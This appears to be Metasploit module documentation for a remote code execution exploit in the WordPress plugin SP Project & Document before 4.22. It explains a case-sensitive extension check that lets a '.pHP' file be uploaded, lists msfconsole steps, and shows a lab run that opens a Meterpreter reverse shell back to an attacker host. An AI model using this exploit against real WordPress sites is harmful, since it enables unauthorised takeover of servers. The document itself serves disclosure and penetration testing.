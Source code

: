 ## Vulnerable Application

### Description

This module allows an attacker with a privileged Wordpress account to launch a reverse shell
due to an arbitrary file upload vulnerability in Wordpress plugin SP Project & Document < 4.22.
This is due to an incorrect check of the uploaded file extension which should be of SGBP type.
Indeed, even if it is not possible to upload `.php` files, the security check only works with lowercase
making possible to upload `.pHP` files for instance.
Finally, the uploaded payload can be triggered by a call to `/wp-content/uploads/sp-client-document-manager/<user_id>/my_payload.php`

### Installation

You can easily install Wordpress with Docker as explained [there]
(https://upcloud.com/community/tutorials/wordpress-with-docker/).
Then, you can download a vulnerable version of SP Project & Document plugin from [there]
(https://downloads.wordpress.org/plugin/sp-client-document-manager.4.21.zip)
and install it on your Wordpress website through the plugin page : Add New > Upload Plugin > Browse...

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/multi/http/wordpress_plugin_sp_project_document_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_wordpress>` if the base path of the Wordpress website is different from `/`
6. `check` to check if the targeted Wordpress website is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on Debian 10 with Wordpress 5.7.2 and SP Project & Document 4.21.
See the following output :

```
msf6 > use wordpress_plugin_sp_project_document_manager
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set rhost 192.168.1.35
rhost => 192.168.1.35
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set username admin
username => admin
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set password your_best_password => your_best_password
msf6 exploit(wordpress_plugin_sp_project_document_manager) > run

[*] Started reverse TCP handler on 192.168.1.28:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Version 4.21 of plugin SP Project & Document Manager found !
[+] The target is vulnerable. This version of SP Project & Document Manager is vulnerable !
[*] Uploading file 'ejtfh.pHP' containing the payload...
[*] Sending stage (39282 bytes) to 192.168.1.35
[*] Meterpreter session 4 opened (192.168.1.28:4444 -> 192.168.1.35:59938) at 2021-07-09 11:41:25 +0200
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.1.35
[*] Meterpreter session 5 opened (192.168.1.28:4444 -> 192.168.1.35:59940) at 2021-07-09 11:41:45 +0200

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo 
Computer    : 217a92584fbf
OS          : Linux 217a92584fbf 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
Meterpreter : php/linux
meterpreter > 
```
